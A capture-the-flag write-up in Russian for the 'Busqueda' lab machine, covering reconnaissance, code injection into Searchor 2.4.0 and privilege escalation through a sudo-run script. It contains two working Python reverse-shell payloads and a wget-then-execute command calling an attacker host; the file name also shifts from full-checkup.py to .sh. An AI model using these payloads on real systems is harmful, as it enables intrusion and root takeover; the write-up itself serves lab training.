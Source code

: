 # Busqueda
:white_check_mark:  [**Searchor 2.4.0 exploit**](#searchor2.4.0)

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV busqueda.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Из вывода nmap, мы можем заметить поддомен по которому доступен сайт: **searcher.htb**. Добавим его в /etc/hosts/.

<a name="searchor2.4.0"></a>

## Searchor 2.4.0 exploit

Главная страница сайта:

![](1.png)

![](../assets/Busqueda/1.png)

Внизу страницы мы можем найти версию веб-сервиса(Searchor 2.4.0):

![](2.png)

![](../assets/Busqueda/2.png)

В интернете мы можем найти [эксплоит](https://github.com/jonnyzar/POC-Searchor-2.4.2) для данной версии веб-сервиса.

Запускаем слушатель и отправляем полезную нагрузку:

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.23',9898));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Получаем обратную оболочку.

![](3.png)

![](../assets/Busqueda/3.png)

## Privesc

В директории с файламы сайта мы можем обнаружить директорию .git. Перейдем в нее и так обнаружим конфиг, в котором лежит пароль от нашего пользователя.

![](4.png)

![](../assets/Busqueda/4.png)

![](5.png)

![](../assets/Busqueda/5.png)

Просмотрим команды, которые мы можем выполнять от sudo.

![](6.png)

![](../assets/Busqueda/6.png)

Запустим скрипт system-checkup.py. Он нам дает подсказку по его использованию:

![](7.png)

![](../assets/Busqueda/7.png)

Команда full-checkup вызывает ошибку. Используем остальные две команды. Выведем список доступных контейнеров. Испектируем docker контейнеры.

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```

![](8.png)

![](../assets/Busqueda/8.png)

Мы обнаружили пароль от gitea. Добавим поддомен(gitea.searcher.htb), который мы обнаружили ранее в /etc/hosts/. Перейдем на поддомен и залогинимся с известным паролем.

![](9.png)

![](../assets/Busqueda/9.png)

В репозитории мы можем обнаружить скрипт, который мы запускали ранее(system-checkup.py).

![](10.png)

![](../assets/Busqueda/10.png)

Данный скрипт запускает исполняемый файл full-checkup.py.

![](11.png)

![](../assets/Busqueda/11.png)

Создадим файл full-checkup.py на атакующей машине с кодом получения обратной оболочки.

```
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",5533));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

Запускаем веб-сервер на атакующей машине. Скачаем этот файл на атакуемую машину, выдадим ему права и запустим команду, которую мы можем запускать от sudo.

```
wget http://10.10.14.12:6666/full-checkup.sh && chmod +x full-checkup.sh && sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Получаем root.

![](12.png)

![](../assets/Busqueda/12.png)